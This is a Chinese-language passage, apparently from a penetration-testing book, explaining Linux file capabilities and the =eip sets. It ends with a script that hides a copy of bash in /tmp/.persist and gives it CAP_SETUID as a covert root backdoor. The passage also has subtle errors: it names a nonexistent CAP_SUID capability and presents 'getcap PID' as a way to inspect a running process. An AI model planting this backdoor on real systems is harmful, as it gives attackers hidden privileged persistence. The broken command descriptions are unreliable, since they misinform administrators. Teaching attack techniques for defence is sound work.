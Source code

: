 下面是如何查看进程能力的一个示例：

```
 $ getcap /path/to/executable
```

下面是如何设置可执行文件能力的一个示例：

```
 $ sudo setcap cap_setuid=+ep /path/to/executable
```

此命令将 **CAP_SUID** 能力授予指定的可执行文件。

要查看正在运行的进程的能力，请运行以下命令，将**PID**替换为你想检查的进程 ID：

```
 $ getcap PID
```

能力的**=eip**后缀提供了一种精确控制进程可用能力及其如何被使用或传递给子进程的方式。这种细粒度的控制使得系统管理员可以实施最小特权原则，只授予进程执行所需的特定能力，而不是给予其完全的 root 权限。

**=eip** 后缀表示 *有效*、*可继承* 和 *许可* 的能力集。这个后缀用于设置或查看 Linux 系统上支持精细化权限控制的文件或进程的能力。

为了理解**=eip**，我们来逐一解析：

+   **e** – *有效*：这些是当前进程正在使用的能力。

+   **i** – *可继承*：这些能力可以被子进程继承。

+   **p** – *许可*：这些是进程允许使用的能力。

当你看到一个带有**=eip**后缀的能力时，意味着该能力已被设置为所有三个集合：有效、可继承和允许。

例如，如果你将**CAP_SETUID**能力设置到一个文件上，并且其值为**=eip**，你可以使用如下命令：

```
 $ sudo setcap cap_setuid=eip /path/to/file
```

该命令将**CAP_SETUID**能力设置为有效、可继承且允许的，适用于指定的文件。

这是一个使用 Linux 能力维持持续访问权限的例子，且操作隐蔽。这个脚本展示了如何使用 Linux 能力保持访问权限。你可以在本章的 GitHub 代码库中找到它，文件名为**ch12_capabilities.sh**：

```
 #!/usr/bin/env bash
# Create a hidden directory
mkdir /tmp/.persist
# Copy /bin/bash to the hidden directory
cp /bin/bash /tmp/.persist/shell
# Set the CAP_SETUID capability on the copied shell
setcap cap_setuid+ep /tmp/.persist/shell
```

让我们仔细看一下这段代码：

1.  首先，它会在**/tmp**中创建一个隐藏目录。

1.  脚本将 Bash shell 复制到这个隐藏位置。

1.  然后，它使用**setcap**命令将**CAP_SETUID**能力添加到复制的 shell 中。这个能力使得 shell 可以设置用户 ID，从而有效地赋予其类似 root 的权限。
